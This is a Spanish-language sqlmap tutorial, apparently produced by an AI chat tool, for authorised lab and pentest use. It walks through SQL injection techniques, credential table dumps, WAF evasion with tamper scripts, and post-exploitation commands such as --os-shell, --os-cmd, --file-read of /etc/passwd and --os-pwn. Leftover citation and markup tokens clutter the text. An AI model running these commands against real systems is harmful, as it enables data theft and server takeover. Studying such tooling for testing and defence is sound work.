

# Manual y metodología completa de uso de sqlmap


sqlmap es una herramienta open source de *pentesting* que automatiza la detección y explotación de vulnerabilidades de SQL injection y, cuando se dan las condiciones (DBMS, privilegios y técnica disponible), puede llegar a “tomar” el servidor de base de datos: enumerar esquema, extraer datos, acceder al sistema de ficheros y ejecutar comandos en el sistema operativo subyacente. citeturn4search36turn1view0

Una metodología operativa sólida con sqlmap no empieza con “tirar comandos”. Empieza con: captura y entendimiento del tráfico HTTP, identificación del punto de entrada, verificación manual (aunque sea mínima), y recién entonces automatización con `-r` (request cruda desde Burp) o con `--data/--cookie/--headers`. citeturn0search1turn0search2turn3view1

Este manual describe, en español (es-ES), un flujo realista “de laboratorio/pentesting”: técnicas de inyección (boolean/error/time/union/stacked), enumeración (`--dbs/--tables/--columns/--dump`), opciones avanzadas (`--level/--risk/--tamper/--threads/--batch/-p/--technique`), autenticación/sesiones (`--cookie/--data/--headers/--auth-type`), crawling (`--forms/--crawl`), post-explotación (`--os-shell/--os-cmd/--file-read/--file-write/--os-pwn`) y resolución de problemas (302, “no parameter found”, “broken pipe”, WAF). citeturn1view0turn3view2turn4search0

## Fundamentos de SQL injection y técnicas de explotación

La SQL injection aparece cuando una aplicación incorpora entrada controlada por el usuario en una consulta SQL sin validación/parametrización adecuada, permitiendo alterar la lógica de la query y acceder o modificar datos de forma no autorizada. citeturn0search2

### Tabla comparativa de técnicas y cuándo usarlas

La nomenclatura práctica en sqlmap para seleccionar técnicas es `--technique=...`, con letras: `B` (boolean), `E` (error), `U` (union), `S` (stacked), `T` (time), `Q` (inline). La lista y significado están documentados en la guía oficial de uso. citeturn1view0turn2view0

| Técnica | Qué “mide”/cómo exfiltra | Señal típica | Ventajas | Coste / limitaciones | Cuándo priorizar |
|---|---|---|---|---|---|
| Boolean-based blind (`B`) | Diferencias entre respuestas “True/False” | Cambios sutiles en contenido/código/longitud | Robusta cuando no hay errores visibles | Lenta; requiere comparaciones fiables | Cuando no hay errores y el tiempo no varía; ideal con `--string/--not-string/--code` si la página es inestable citeturn1view0turn0search6 |
| Error-based (`E`) | Exfiltración mediante mensajes de error DBMS | Errores SQL/reflejos en respuesta | Suele ser muy rápida (in-band) | Depende de verbosidad/errores visibles | Cuando la app muestra errores o es posible forzarlos (`--parse-errors` puede ayudar) citeturn1view0 |
| Time-based blind (`T`) | Inferencia por retardos (p.ej. `SLEEP`) | Respuestas consistentemente más lentas | Funciona incluso sin diferencias de contenido | Muy lenta; sensible a latencia | Cuando la app es “ciega” pero el timing es estable; ajusta `--time-sec` citeturn1view0turn0search6 |
| UNION query-based (`U`) | Exfiltra datos combinando resultados (`UNION SELECT`) | Datos aparecen en la página | Muy rápida si hay reflejo | Requiere encontrar nº de columnas/compatibilidad | Cuando el endpoint renderiza resultados en pantalla y permite `UNION` (puede requerir `--union-cols/--union-char`) citeturn1view0 |
| Stacked queries (`S`) | Ejecuta múltiples sentencias separadas | Efectos “side-effect” (p.ej. `SLEEP`) | Habilita OS/file access con más facilidad | No siempre permitido; más riesgoso | Cuando necesitas *takeover* (OS/file/acciones) y el DBMS lo soporta; sqlmap indica que `S` es relevante para takeover/FS citeturn1view0turn2view4 |
| Inline queries (`Q`) | Subconsultas insertadas en la query | Similar a otras, según vector | Complementa combinaciones | Depende del contexto SQL | Cuando el punto de inyección está en un contexto que favorece subqueries citeturn1view0 |

Un punto clave de metodología: no “fuerces” técnicas por capricho. Si sqlmap detecta `E` o `U` disponibles, normalmente serán preferibles por velocidad, y caerá a *blind* cuando no existe opción in-band. citeturn1view0

## Preparación operativa con Burp y request cruda

Probar SQLi en serio exige ver y controlar la request real. La documentación de entity["company","PortSwigger","burp suite vendor"] insiste en un flujo de pruebas donde manipulas requests y entradas para detectar inyecciones. citeturn0search1

image_group{"aspect_ratio":"16:9","query":["Burp Suite Repeater raw HTTP request example","Burp Suite Proxy HTTP request intercepted example","Burp Suite Repeater request body application/x-www-form-urlencoded"],"num_per_query":1}

### Por qué `-r` es el estándar de facto

La guía oficial de uso de sqlmap documenta `-r` como “cargar una HTTP request cruda desde un fichero”, lo que permite prescindir de muchas opciones (cookies, POST data, etc.) y reproducir exactamente el tráfico observado. Incluso incluye un ejemplo de formato de archivo de request. citeturn3view1turn1view0

**Plantilla mínima de `req.txt` (formato crudo)**  
(Esto es reproducible; ajusta `Host`, ruta y parámetros a tu caso.)

```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=nk72h2nm30fomoh0ckhidntpso
User-Agent: Mozilla/5.0

name=asd&password=asd&submit=
```

Puntos importantes:

- La request cruda contiene *headers* y cuerpo. sqlmap parsea ambas partes. citeturn3view1turn1view0  
- Si el target usa HTTPS y el `Host` no lo deja claro, la documentación recomienda `--force-ssl` (o `Host: ...:443`) para forzar conexión TLS. citeturn3view1turn3view1  
- Si hay tokens anti-CSRF, sqlmap tiene opciones específicas (`--csrf-token`, `--csrf-url`, etc.). En tu request esto está **no especificado**. citeturn3view1turn3view1  

image_group{"aspect_ratio":"16:9","query":["sqlmap -r request file example","sqlmap request.txt raw http request format","sqlmap parse HTTP request from file screenshot"],"num_per_query":1}

### Alternativas a `-r` cuando no puedes capturar con Burp

La documentación oficial explica que con `--data` cambias implícitamente a POST y sqlmap probará esos parámetros (además de los GET si existen). citeturn1view0

Ejemplo POST sin `-r`:

```bash
sqlmap -u "http://172.17.0.2/index.php" --data="name=asd&password=asd&submit=" --dbs
```

Si el vector está en cookies o headers, sqlmap puede enviarlos y, a partir de ciertos niveles, incluso testearlos como puntos de inyección: cookies desde `--level >= 2`, y User-Agent/Referer desde `--level >= 3` (documentado en la guía de uso). citeturn1view0

## Metodología paso a paso con objetivos por fase

Esta es la metodología “operativa” recomendada para que sqlmap te dé resultados consistentes y para que tú puedas interpretarlos (no solo copiarlos).

### Diagrama de flujo del proceso operativo



### Fase de recon y selección del punto de entrada

Objetivo: no ejecutar sqlmap contra “la home” sin parámetros.

- Si no hay parámetros, sqlmap no tiene qué testear (el típico “no parameter(s) found”). En ese caso debes aportar parámetros (GET/POST/cookie/header), apuntar con `-p`, o usar funcionalidades de descubrimiento como `--forms` o `--crawl`. La guía oficial documenta `--forms` para parsear formularios y `--crawl` para recolectar enlaces desde una URL base. citeturn5view2turn5view0

Plantillas rápidas:

```bash
# Parsear formularios desde una página
sqlmap -u "http://172.17.0.2/" --forms --batch

# Crawl con profundidad 2 (descubre enlaces potencialmente vulnerables)
sqlmap -u "http://172.17.0.2/" --crawl=2 --batch
```

### Fase de detección y control de interacción

Objetivo: confirmar SQLi, con reproducibilidad y sin quedarte bloqueado en prompts.

- `--batch` activa modo no interactivo: sqlmap elige el comportamiento por defecto cuando pediría input. Está documentado como “actuar sin interacción del usuario”. citeturn5view2turn1view0  
- Si aun en batch quieres forzar respuestas a preguntas concretas, existe `--answers="pregunta=respuesta,..."`. citeturn5view2turn1view0  
- Para acotar el parámetro a testear cuando hay múltiples, usa `-p`. citeturn3view1turn3view1  
- Para acotar técnicas, `--technique=BEUSTQ` (o subconjunto). citeturn1view0turn2view0  

Detección recomendada con request cruda:

```bash
sqlmap -r req.txt --batch --fingerprint
```

Si ya sabes que el parámetro vulnerable es `name`:

```bash
sqlmap -r req.txt -p name --batch --dbs
```

### Tabla de flags más usados con explicación y ejemplo

| Flag | Para qué sirve | Ejemplo listo para copiar/pegar |
|---|---|---|
| `-u` | URL objetivo | `sqlmap -u "http://target/vuln.php?id=1" --dbs` citeturn1view0 |
| `--data` | Fuerza POST con cuerpo y testea parámetros | `sqlmap -u "http://target/login.php" --data="u=a&p=b" --dbs` citeturn1view0 |
| `-r` | Cargar request HTTP cruda desde fichero | `sqlmap -r req.txt --dbs` citeturn3view1turn1view0 |
| `--cookie` | Enviar cookies; útil para auth y para testear vector en cookie | `sqlmap -u "http://t/v.php?id=1" --cookie="PHPSESSID=..." --dbs` citeturn1view0 |
| `--headers` | Añadir headers extra (uno por línea) | `sqlmap -u "http://t/v.php?id=1" --headers=$'X-Test: 1\nX-Forwarded-For: 127.0.0.1'` citeturn1view0 |
| `--random-agent` | User-Agent aleatorio (evitar bloqueos simples) | `sqlmap -r req.txt --random-agent --batch` citeturn1view0 |
| `--level` | Profundidad de tests y “superficie” (incluye más vectores: cookies/headers) | `sqlmap -r req.txt --level=5 --batch` citeturn1view0 |
| `--risk` | Riesgo de payloads (más agresivos; puede ser peligroso) | `sqlmap -r req.txt --risk=3 --batch` citeturn1view0 |
| `--tamper` | Aplicar scripts de ofuscación/transformación | `sqlmap -r req.txt --tamper="between,randomcase" --batch` citeturn1view0 |
| `--threads` | Concurrencia HTTP (acelera blind/enum; cuidado con estabilidad) | `sqlmap -r req.txt --threads=5 --batch` citeturn3view1 |
| `-p` | Elegir parámetro(s) testeables | `sqlmap -r req.txt -p name --dbs --batch` citeturn3view1 |
| `--technique` | Limitar técnicas (p.ej. solo Error+Stacked) | `sqlmap -r req.txt --technique=ES --batch` citeturn1view0 |
| `--auth-type/--auth-cred` | Autenticación HTTP Basic/Digest/NTLM (si aplica) | `sqlmap -u "http://t/v.php?id=1" --auth-type Basic --auth-cred "u:p"` citeturn2view5turn1view0 |
| `--forms / --crawl` | Descubrir inputs (formularios/enlaces) | `sqlmap -u "http://t/" --forms --crawl=2 --batch` citeturn5view2turn5view0 |

Nota de seguridad operativa: `--risk=3` puede introducir payloads `OR` que, en ciertos contextos (por ejemplo en un `UPDATE` vulnerable), podrían afectar múltiples filas. La guía oficial explica la motivación de `--risk` precisamente para que el usuario controle tests potencialmente peligrosos. citeturn1view0

## Enumeración y extracción con ejemplos prácticos

La sección de “Enumeration” de la guía oficial detalla switches para enumerar información del DBMS, estructura y datos; también advierte que “recuperar todo” con `--all` no suele ser recomendable por volumen de requests/datos. citeturn1view0

### Enumeración mínima recomendada

```bash
# Banner/version del DBMS (cuando procede)
sqlmap -r req.txt -b --batch

# Bases de datos
sqlmap -r req.txt --dbs --batch

# Tablas de una base concreta
sqlmap -r req.txt -D register --tables --batch

# Columnas de una tabla
sqlmap -r req.txt -D register -T users --columns --batch

# Dump completo de una tabla
sqlmap -r req.txt -D register -T users --dump --batch
```

Estos flags (`--dbs`, `--tables`, `--columns`, `--dump`) forman el flujo estándar de enumeración que aparece tanto en documentación y ejemplos comunitarios en español como en guías rápidas. citeturn1view0turn0search3turn0search34

### Dump selectivo y control del formato

Para no volcar “todo”, prioriza columnas concretas con `-C` y usa `--dump-format` si te interesa HTML/SQLite además de CSV (CSV es el default documentado). citeturn5view0turn1view0

```bash
sqlmap -r req.txt -D register -T users -C username,passwd --dump --dump-format=CSV --batch
```

### Consejos para interpretar resultados y siguientes acciones

Una vez extraes credenciales/datos, *el trabajo real* es convertirlo en impacto verificable (con autorización): iniciar sesión, acceder a paneles, verificar permisos y registrar evidencias. El entity["organization","OWASP","nonprofit web security"] WSTG remarca que una explotación exitosa de SQLi puede permitir acceso o manipulación no autorizada de datos, por lo que la validación de impacto y el registro de evidencias es parte de una prueba seria. citeturn0search2

Si el campo parece un hash o binario, sqlmap contempla modos de manejo (por ejemplo `--binary-fields` para recuperar correctamente valores binarios y dejarlos listos para procesarlos con herramientas externas). citeturn5view2turn1view0

## Post-explotación con sqlmap, automatización y resolución de problemas

sqlmap incluye funcionalidades de “takeover” del sistema subyacente cuando el DBMS y los permisos lo permiten: ejecución de comandos (`--os-cmd`, `--os-shell`), acceso a ficheros (`--file-read`, `--file-write/--file-dest`) y canales OOB más complejos (`--os-pwn`, etc.). La guía oficial detalla requisitos y ejemplos, y especifica que estas capacidades dependen de DBMS soportados (MySQL/PostgreSQL/MSSQL) y privilegios del usuario de sesión. citeturn2view1turn2view2turn2view4

### Ejemplos reproducibles de post-explotación

**Ejecutar un comando (no interactivo):**

```bash
sqlmap -r req.txt --os-cmd="id" --batch
```

**Abrir una pseudo-shell:**

```bash
sqlmap -r req.txt --os-shell --batch
```

La documentación describe que `--os-shell` simula una shell con historial/autocompletado similar a `--sql-shell`. citeturn2view0turn2view1

**Leer un fichero del servidor (si hay privilegios):**

```bash
sqlmap -r req.txt --file-read="/etc/passwd" --batch
```

**Subir un fichero al servidor (si hay privilegios) y ruta absoluta conocida:**

```bash
sqlmap -r req.txt --file-write="./local.bin" --file-dest="/tmp/local.bin" --batch
```

sqlmap documenta explícitamente `--file-read` y `--file-write/--file-dest` como mecanismos de acceso al filesystem subyacente cuando el DBMS/privilegios lo permiten. citeturn2view2turn2view3

**Canal OOB / sesión tipo Meterpreter/VNC (existente en sqlmap):**

```bash
sqlmap -r req.txt --os-pwn --batch
```

La guía oficial describe `--os-pwn` como parte de un conjunto de técnicas que pueden apoyarse en Metasploit para generar/ejecutar payloads, y detalla varios métodos (UDFs, ejecución, SMB relay, etc.). citeturn2view4turn1view0

### Manejo de redirecciones 302 y POST reenviado

En escenarios reales (login, flujos multi-página), es común que el servidor responda con 302. sqlmap puede preguntarte si quieres seguir la redirección y, si viene de un POST, si quieres reenviar el POST a la nueva ubicación (exactamente el prompt que has visto). La interpretación práctica de ese prompt se documenta en discusiones técnicas y Q&A: significa que el flujo “A → B” está redirigiendo, y tú decides si reenvías el mismo cuerpo POST a B. citeturn4search0turn4search1

Para automatizar o controlar redirecciones:

- `--ignore-redirects` existe para ignorar intentos de redirección. citeturn3view2turn1view0  
- `--batch` evita interacción, pero si necesitas respuestas específicas para redirects (seguir sí/no, reenviar POST sí/no), `--answers` puede fijarlas. citeturn5view2turn1view0  

### Interpretación de logs, sesiones y ruta de salida

sqlmap guarda sesiones y resultados en un directorio de salida; la guía oficial explica que por defecto usa un subdirectorio `output` y permite cambiarlo con `--output-dir`. citeturn5view1turn5view0

En ejecuciones reales verás mensajes del tipo “fetched data logged to text files under ...”, y en entornos distintos puede variar el path: en GNU/Linux suele colgar de un directorio del usuario, y en Windows se han reportado rutas tipo `AppData\Local\sqlmap\output\...`. citeturn4search3turn4search14

Comandos prácticos sobre sesiones:

```bash
# Re-ejecutar desde cero (sin cache de sesión del target actual)
sqlmap -r req.txt --flush-session --batch

# Forzar queries frescas ignorando resultados guardados
sqlmap -r req.txt --fresh-queries --batch
```

Estas opciones están documentadas en la guía oficial (`--flush-session`, `--fresh-queries`). citeturn5view0turn1view0

### Errores comunes y cómo resolverlos

**“no parameter(s) found for testing”**  
Significa que no hay parámetros que testear en los datos proporcionados. Soluciones típicas: usar `-r`, aportar `--data`, seleccionar con `-p`, o permitir que sqlmap descubra inputs con `--forms` / `--crawl`. citeturn3view1turn5view0turn5view2

**“Broken pipe” / timeouts / inestabilidad de conexión**  
En pruebas *blind* o con muchas requests, los timeouts y cortes pueden ocurrir; sqlmap expone controles como `--timeout` y `--retries` para gestionar esperas y reintentos, además de `--keep-alive` para conexiones persistentes si aplica. citeturn3view1turn5view1

**WAF/IPS y bloqueos por payloads “sospechosos”**  
La guía oficial describe que sqlmap hace un test heurístico de WAF/IPS enviando un payload deliberadamente sospechoso, y ofrece `--skip-waf` para omitir esa heurística si lo necesitas. Para evadir validaciones débiles o WAFs, documenta `--tamper` y permite listar scripts con `--list-tampers`. citeturn1view0

**Contenido dinámico que rompe la comparación True/False**  
Si la página cambia aun sin inyección, sqlmap permite afinar la comparación con `--string`, `--not-string`, `--regexp` o incluso `--code`. Eso es crítico para boolean-based blind. citeturn1view0turn0search6

### Buenas prácticas de seguridad y legalidad

- sqlmap incluye un “legal disclaimer” explícito: su uso contra objetivos sin consentimiento es ilegal, y la responsabilidad recae en el usuario final. En un entorno de formación/lab, documenta siempre el alcance y permisos. citeturn1view0turn4search36  
- Desde la perspectiva defensiva, entity["organization","OWASP","nonprofit web security"] provee guías para probar y prevenir SQLi (validación, parametrización, etc.). Incluir mitigaciones en el informe final es parte del trabajo de calidad. citeturn0search2turn0search37  
- Tras takeover/FS/OS, sqlmap recomienda limpiar artefactos temporales (tablas/UDFs), y documenta `--cleanup` para intentarlo. citeturn5view0turn1view0  

### Referencias priorizadas para ampliar

Las fuentes más sólidas para “aprender de verdad” y verificar flags/comportamiento son: documentación oficial de sqlmap (web y wiki de uso), guías de testing de entity["organization","OWASP","nonprofit web security"] (WSTG) y documentación de entity["company","PortSwigger","burp suite vendor"] sobre pruebas de SQLi. Para apoyo en español, existen *cheat sheets* y guías prácticas (calidad variable) que pueden servir como recordatorio, pero deben contrastarse con la documentación oficial. citeturn4search36turn1view0turn0search2turn0search1turn0search3turn4search21turn0search34turn0search7turn0search26
